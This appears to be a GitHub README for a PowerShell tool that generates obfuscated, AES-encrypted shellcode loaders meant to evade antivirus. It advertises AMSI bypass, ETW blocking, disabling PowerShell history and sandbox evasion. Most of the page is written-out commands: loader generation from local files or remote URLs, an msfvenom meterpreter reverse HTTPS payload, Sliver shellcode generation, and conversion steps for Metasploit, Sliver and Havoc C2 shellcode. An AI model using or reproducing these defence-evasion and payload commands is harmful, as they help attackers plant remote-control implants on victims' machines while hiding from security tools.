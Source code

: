 ### Invoke-PoSH-ShellCodeLoader v2.0
--------------------------------------
'Invoke-PoSH-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader PowerShell script that will inject the shellcode into the current process's virtual address space.  

#### FEATURES
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  - Compatible with shellcodes from multiple C2 frameworks (Metasploit, Silver and Havoc)

#### USAGE
1. Examples with a shellcode file stored locally
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Sliver -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type Havoc -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1
```

2. Examples with a shellcode file stored on a remote web server
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader.ps1
  - Invoke-PoSH-ShellCodeLoader -Type=MSF -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type=Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
    --- or ---
  - Invoke-PoSH-ShellCodeLoader -Type=Havoc -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 
```
3. Examples with the optional parameter '-Sandbox'
```
  - Invoke-PoSH-ShellCodeLoader -Type MSF -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1 -Sandbox
  - Invoke-PoSH-ShellCodeLoader -Type=Sliver -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellCodeLoader.ps1  -Sandbox
```

#### INPUT (Shellcode formats)  
- Metasploit C2 Framework
  ```msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f raw -o shellcode```  
  
- Sliver C2 Framework  
  ```[server] sliver > generate --arch amd64 -f shellcode --http IP -l --os Windows --save shellcode```  
  ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
  ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  
  
- Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the appropriate format you need to run these commands:  
       ```@Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2```  
       ```@Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3```  

#### LICENSE
  - GNU General Public License v3.0
